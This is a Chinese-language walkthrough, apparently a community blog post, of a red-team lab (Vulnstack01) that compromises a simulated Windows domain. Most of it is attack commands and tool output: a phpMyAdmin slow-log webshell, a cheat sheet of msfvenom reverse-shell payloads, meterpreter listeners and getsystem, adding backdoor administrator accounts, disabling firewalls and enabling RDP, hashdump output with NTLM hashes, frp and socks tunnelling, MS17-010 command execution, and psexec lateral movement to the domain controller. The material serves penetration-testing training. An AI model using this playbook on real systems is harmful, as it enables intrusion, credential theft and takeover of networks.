

# ATT&CK红队评估(Vulnstack01)靶场渗透 - 先知社区

ATT&CK红队评估(Vulnstack01)靶场渗透

- - -

## 环境配置：

这里正好学习一下内网环境的一个架构：靶场设置了三个虚拟机：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202190938-48a02126-9103-1.png)

这里Win7就是我们的Web服务器，我们需要模拟一个公网环境和我们的攻击机在一个网段下，同时我们还要配置一个内网环境，让攻击机无法直接去访问到内网的Win2K3和Win2008，所以这里Win7我们配置一个双网卡，一个网卡使用NAT模式模拟我们的公网环境，另一个网卡设为VMnet1(仅主机模式)，同时另外两个Win2K3和Win2008都设置为VMnet1，从而落到同一个网段下构成一个内网环境。

我们可以看到我们的NAT模式将我们的公网段落到了82段上，然后内网段在52段上，在Win7上面，我们的本机/攻击机以及两个内网机都能够ping通IP，但是因为Win7开了防火墙，过滤了icmp协议，所以其他机器无法ping通Win7

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202190910-37c252b6-9103-1.png)

## 启动服务：

然后我们需要启动Win7上面的phpstudy服务来构造起我们的Web服务，但是这里红日靶场的phpstudy不能够启动，我们就手动启动Apache服务和Mysql服务,这里覆盖上命令：

**启动Apache服务：**

```plain
httpd.exe -k install

httpd.exe -k -n apache2.4
```

然后启动services.msc打开对应MySQL服务：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202190951-50794896-9103-1.png)

**启动mysql服务：**

```plain
mysqld --install

mysqld --defaults-file="C:/phpStudy/mysql/my.ini" --console --skip-grant-tables
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191046-710e6cee-9103-1.png)

## 外网打点：

### 漏洞一：yxcms弱口令登录，插件模板写马

### 漏洞二：phpMyAdmin慢查询写马

```plain
show variables like '%slow%';
set GLOBAL slow_query_log_file='C:/phpStudy/WWW/shell.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191101-7a4f48e6-9103-1.png)

## 内网上线(143机器)：

### CS文件马上线：

通过CS制作exe文件木马上传蚁剑然后运行上线CS

systeminfo查看补丁信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191219-a85623e0-9103-1.png)

利用ms14\_058提权成功

### powershell上线：

通过制作powershell来上线：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191228-ae005d38-9103-1.png)

### MSF上线：

#### msf生成木马:

```plain
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf > shell.elf

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.machoWeb Payloads

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

#### 反向shell：

```plain
msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.254.129 LPORT=7777 -f exe -o shell.exe
# 反向shell
```

#### 开启msf监听:

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.53.131
set lport 8885
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191241-b5f08a5e-9103-1.png)

提权：

```plain
meterpreter > getuid
Server username: GOD\Administrator

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191249-ba42c392-9103-1.png)

关闭防火墙

```plain
meterpreter >  run post/windows/manage/enable_rdp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205085031-4a4c6d66-9308-1.png)

```plain
1. sessions -i
2. #查看已经获取的会话
3. sessions -i 1
4. #连接到指定序号的meterpreter会话已继续利用
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191306-c4659dfe-9103-1.png)

## 信息搜集:

### 基础信息搜集：

如遇shell乱码问题可输入`chcp 65001`缓解部分问题

```plain
输入 ashelp 查看本地命令
net user 查看本地账户
whoami 当前用户权限
ipconfig -all Windows IP 配置
systeminfo  #信息
tasklist #查询进程及服务
ipconfig /all #.域信息
netstat -an #查看端口状态
net view
net view /domain #查看当前登录域与用户信息
```

### 添加用户：

```plain
net user srn7 P@ssword /add
# 添加用户
net localgroup administrators srn7 /add
# 将用户添加至管理员组
net user srn7
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191335-d613f780-9103-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191330-d2f95162-9103-1.png)

### 开启远程3389端口：

```plain
netstat -an 查看端口状态
```

```plain
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```

```plain
开启3389服务：

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 3389 /f

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 3389 /f

net start termservice
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191350-deb47f90-9103-1.png)

查看注册表值来确定是否开启远程桌面服务：

```plain
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

### 关闭防火墙：

```plain
关闭防火墙
netsh advfirewall set allprofiles state off
关闭防火墙
netsh firewall set opmode disable               #winsows server 2003 之前
netsh advfirewall set allprofiles state off     #winsows server 2003 之后
防火墙放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191401-e5687e0e-9103-1.png)

### 查看域信息：

```plain
net group /domain  #查看域内所有用户列表
net group "domain computers" /domain #查看域成员计算机列表
net group "domain admins" /domain #查看域管理员用户
```

### 补丁信息：

```plain
run post/windows/gather/enum_patches
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191413-ecb6c080-9103-1.png)

### 查看安装软件：

```plain
run post/windows/gather/enum_applications
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191507-0cb4f366-9104-1.png)

### 获取密码：

#### 通过mimikatz获取用户名密码

#### 通过msf获取密码：

获取自动登录密码：

```plain
meterpreter > run windows/gather/credentials/windows_autologin
[] Running against STU1 on session 2 
[] The Host STU1 is not configured to have AutoLogon password
#在会话 2 上针对 STU1 运行 #主机 STU1 未配置为具有自动登录密码
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191522-15aff22c-9104-1.png)

查询hashdump：

```plain
run post/windows/gather/smart_hashdump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205085347-bfa4cd6a-9308-1.png)

```plain
[] 针对 STU1 运行模块
[] 如果连接，哈希值将保存到数据库中。
[+] 哈希值将以 JtR 密码文件格式保存在战利品中： 
[] /root/.msf4/loot/20211105144910_default_192.168.254.130_windows.hashes_151319.txt
[] 倾销密码哈希... 
[] 以 SYSTEM 身份运行，从注册表中提取哈希值
[] 获取启动密钥... 
[] 使用 SYSKEY fd4639f4e27c79683ae9fee56b44393f 计算 hboot 密钥...
[] 获取用户列表和密钥... 
[] 解密用户密钥...
[] 转储密码提示...
[] 在这个系统上没有有密码提示的用户
[] 倾销密码哈希... 
[+] 管理员：500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] srn7:1001:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```plain
密码格式
用户名称: RID:LM-HASH值:NT-HASH 值
rid 是 windows 系统账户对应固定的值，类似于 linux 的 uid，gid 号，500 为 administrator，501 为 guest 等
LM-Hash和NT-Hash，这是对同一个密码的两种不同的加密方式，可采用MD5解密；
```

## 远程桌面连接：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191537-1ea2cba2-9104-1.png)

解决方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191551-2739f434-9104-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191557-2a94fec6-9104-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191637-42af1b4a-9104-1.png)

## 内网穿透配置代理：

### 内网信息搜集：

```plain
ipconfig /all    查询本机IP段，所在域等
net config Workstation    当前计算机名，全名，用户名，系统版本，工作站域，登陆域
net user    本机用户列表
net localgroup administrators    本机管理员[通常含有域用户]
net view 查看域信息
net view /domain 查询主域信息
net config workstation 当前的登录域与用户信息
net time /domain 判断主域
nslookup god.org  nslookup 命令直接解析域名服务器
net user /domain 当前域的所有用户
route print  路由信息
net group "domain admins" /domain 域管理员的名字
```

### Frp内网穿透：

```plain
1、后台运行frp服务(定位至frp文件夹)
服务端： nohup ./frps -c frps.ini >/dev/null 2>&1 &
客户端： nohup ./frpc -c frpc.ini >/dev/null 2>&1 &

2、找到frp进程号
ps -aux|grep frp| grep -v grep

3、结束frp进程
kill -9 12345(找到的进程号)
tasklist
taskkill /F /PID 3604
```

在kali攻击机上部署frps服务端：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205084301-3e7917b0-9307-1.png)

在目标机上运行frpc.exe文件进行客户端连接：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191716-595bd964-9104-1.png)

配置全局代理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191723-5da4a30c-9104-1.png)

### MSF路由转发穿透：

我们先来讲一下msf建立内网路由的原理：

```plain
这里需要注意，sock协议不支持ping命令（icmp）
sock4a:TELNET,FTP,HTTP等TCP协议;
sock5:TCP与UDP,并支持安全认证方案;
```

在我们使用msf来探测各个网段的主机信息时，我们需要先添加通过各个网段的路由，这样msf才能够知道应该怎么走，就好比我们提前告诉msf都有那些路可以走，然后他才能够去走。所以这里我们最先要做的就是对msf添加自动路由，或者手动指定路由添加：

```plain
#新建路由：
run post/multi/manage/autoroute

#查看路由信息
run autoroute -p

#添加指定路由，1是接收的session编号
msf6 > route add 192.168.10.0 255.255.255.0 1

#查看路由表信息
route
```

这样我们添加路由以后，用msf自带的模块对内网主机进行扫描探测，msf就会自动将流量送往对应的网段，但是如果我们不单单使用msf来进行渗透，我们就需要做代理转发，通过配置socks代理来帮我们获取到对应的内网信息

#### 添加socks代理：

我们在vps上面开启一个Socks代理，监听vps本地的1080端口，然后再通过这个端口将流量转给msf，msf又添加了路由，所以能够将流量直接带入到内网。其实就是这样的一个关系：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191837-89eb0690-9104-1.png)

```plain
use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1  #或者默认0.0.0.0
msf6 auxiliary(server/socks_proxy) > run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191844-8e38dec0-9104-1.png)

攻击机kali配置客户端代理：

```plain
vim /etc/proxychains4.conf
proxychains4 命令
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191851-92527dfe-9104-1.png)

## 内网漫游：

### arp 探测内网存活主机

```plain
use post/windows/gather/arp_scanner
set RHOSTS 192.168.52.0/24
set SESSION 1
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191909-9d031ed4-9104-1.png)

### udp协议发现内网存活主机

```plain
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS 192.168.52.0/24
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202191931-aa48de6c-9104-1.png)

### Nmap主机端口探测：

查看域信息：net view

查看主域信息：net view /domain

开始横向渗透控制其它主机

进行其它内网主机端口探测

```plain
proxychains nmap -sS -sV -Pn 192.168.52.141
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202192103-e0dad2fa-9104-1.png)

### fscan扫描：

```plain
192.168.52.141:139 open
192.168.52.143:3306 open
192.168.52.141:135 open
192.168.52.1:445 open
192.168.52.1:139 open
192.168.52.1:135 open
192.168.52.138:445 open
192.168.52.143:445 open
192.168.52.138:139 open
192.168.52.138:135 open
192.168.52.143:139 open
192.168.52.138:88 open
192.168.52.143:135 open
192.168.52.138:80 open
192.168.52.141:21 open
192.168.52.143:80 open
192.168.52.141:445 open
192.168.52.141:7001 open
192.168.52.141:8099 open
192.168.52.141:8098 open
192.168.52.141:7002 open
[+] 192.168.52.143  MS17-010    (Windows 7 Professional 7601 Service Pack 1)
[*] NetInfo:
[*]192.168.52.138
   [->]owa
   [->]192.168.52.138
[*] NetInfo:
[*]192.168.52.143
   [->]stu1
   [->]192.168.52.143
   [->]169.254.129.186
   [->]192.168.82.7
[+] 192.168.52.138  MS17-010    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios: 192.168.52.138  [+]DC owa.god.org                   Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] NetInfo:
[*]192.168.52.141
   [->]root-tvi862ubeh
   [->]192.168.52.141
[+] 192.168.52.141  MS17-010    (Windows Server 2003 3790)
[*] WebTitle: http://192.168.52.141:7002 code:200 len:2632   title:Sentinel Keys License Monitor
[*] WebTitle: http://192.168.52.143     code:200 len:14749  title:phpStudy 探针 2014
[+] ftp://192.168.52.141:21:anonymous 
[*] WebTitle: http://192.168.52.138     code:200 len:689    title:IIS7
```

### FTP弱口令连接(141机器)：

```plain
proxychains ftp
ftp> open 192.168.52.141 21
Name (192.168.52.141:root): anonymous
Password:
ftp> help
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202192219-0e0a9562-9105-1.png)

### MS17-010永恒之蓝(141机器)：

fscan和nmap扫描发现开放445端口：永恒之蓝漏洞通过TCP的445和139端口，来利用v1和NBT中的远程代码执行漏洞，通过恶意代码扫描并攻击开放445文件共享端口的Windows主机。只要用户主机开机联网，即可通过该漏洞控制用户的主机。

```plain
use auxiliary/admin/smb/ms17_010_command
set COMMAND net user
set RHOST 192.168.52.141
exploit
```

添加用户名：

```plain
set COMMAND net user hack hack /add
添加不成功，因为有密码设置策略，密码不能太简单且不能包含用户名
set COMMAND net user hack qaz@123
添加成功
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202192316-3058e29a-9105-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202192326-366181e2-9105-1.png)

正向连接（未成功）：

```plain
利用 exploit/windows/smb/ms17_010_psexec 尝试正向连接

search ms17-010
use exploit/windows/smb/ms17_010_psexec
show options
set rhosts 192.168.52.141
set payload
set lhost 192.168.82.3
set lport 7777
set SMBuser srn7
set SMBpass P@ssword
exploit
```

开启3389端口：

```plain
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set COMMAND wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
exploit
```

上面这个没有开启成功，下面这个成功了

```plain
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run
```

远程连接：直接在msf里rdesktop 192.168.52.141或者另起终端proxychains rdesktop 192.168.52.141 或者全局代理直接本机远程连接均可；

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202192348-435d3a44-9105-1.png)

### telnet远程连接服务(141机器)：

Telnet（"Telecommunication Network" 的缩写）是一种用于在计算机之间进行远程终端连接的协议。Telnet服务允许用户通过网络远程登录到远程主机，并在远程主机上执行命令，就像直接在本地计算机上执行一样。Telnet是一个简单的文本协议，主要用于远程管理和调试。

开启23端口并打开telnet服务：

```plain
set COMMAND sc config tlntsvr start= auto
set COMMAND net start telnet
```

接下来telnet连接

```plain
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.52.141
set username hack
set PASSWORD qaz@123
exploit
```

自行连接：

```plain
telnet 192.168.52.141
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202193055-41aa9b50-9106-1.png)

## CS横向渗透(138机器)：

net view首先查看域内信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202193112-4be78434-9106-1.png)

当我们拿到一个机器的beacon以后，通过mimikatz抓取明文密码，得到其他机器和本机机器的某些用户的明文密码,这里我们通过143机器administrator的密码以后，因为143机器开启了445端口，所以我们就可以通过这个机器的445端口和目标不出网的138机器的445端口进行smb通讯

这里我们使用smb的监听器：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202193138-5b7c67de-9106-1.png)

然后通过psexec进行内网横向渗透，通过143机器对138机器进行通讯：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205084812-f7ac2880-9307-1.png)

然后我们发现138机器OWA成功上线，拿下域控：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231202193152-6380a832-9106-1.png)

参考文章：  
[https://blog.csdn.net/qq\_40638006/article/details/122033546](https://blog.csdn.net/qq_40638006/article/details/122033546)  
[https://www.freebuf.com/articles/web/324441.html](https://www.freebuf.com/articles/web/324441.html)
